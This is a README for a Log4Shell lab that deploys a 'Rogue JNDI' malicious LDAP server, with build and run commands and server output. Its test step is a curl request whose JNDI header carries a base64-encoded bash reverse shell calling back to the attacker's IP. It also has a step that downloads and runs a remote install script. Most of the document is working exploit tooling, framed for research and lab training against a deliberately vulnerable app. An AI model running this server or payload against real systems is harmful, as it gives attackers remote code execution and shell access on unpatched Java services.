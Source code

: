 # Rogue JNDI Server
A malicious LDAP server for JNDI injection attacks created by the [Veracode research team](https://github.com/veracode-research).

## Updates
* Extended Tomcat controller LDAP mapping URIs to cover direct b64 encoded strings requests for PowerShell and Bash.
    * `/o=tomcat`, `/o=tomcat,pwshb64cmd=*`, `/o=tomcat,bashb64cmd=*`
* Updated `artsploit` utilities:
    * Created a method to take PowerShell or Bash b64 encoded strings and pack it so that it can be executed as a `java.lang.Runtime.exec()` payload.
    * Integrated [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit/blob/master/src/main/java/jndi/LDAPRefServer.java#L115) method to convert bytes to hex to show serialized data before it gets sent to the client.

## Deploy Rogue JNDI Server

clone GitHub project

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

We are going to build our rogue-jndi server to apply the recent modifications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

Build docker image

```bash
cd log4shell-lab/attacker-server/rogue-jndi/

docker build . -t rogue-jndi
```

## Run Project

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8888
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.2.6:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.2.6:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.2.6:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,pwshb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=* to artsploit.controllers.Tomcat
Mapping ldap://192.168.2.6:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.2.6:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.2.6:1389/o=reference to artsploit.controllers.RemoteReference
```

## Test JNDI Lookup - Bash B64 Encoded Command

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat,bashb64cmd=YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjIuNi80NDMgMD4mMQ%3D%3D}' 127.0.0.1:8080/VulnWebApp-1.0-SNAPSHOT/api/threadcontext
```

![](../../resources/images/log4jshell-lab-rogue-jndi-test.png)

# References
* https://github.com/veracode-research/rogue-jndi
* https://www.jackson-t.ca/runtime-exec-payloads.html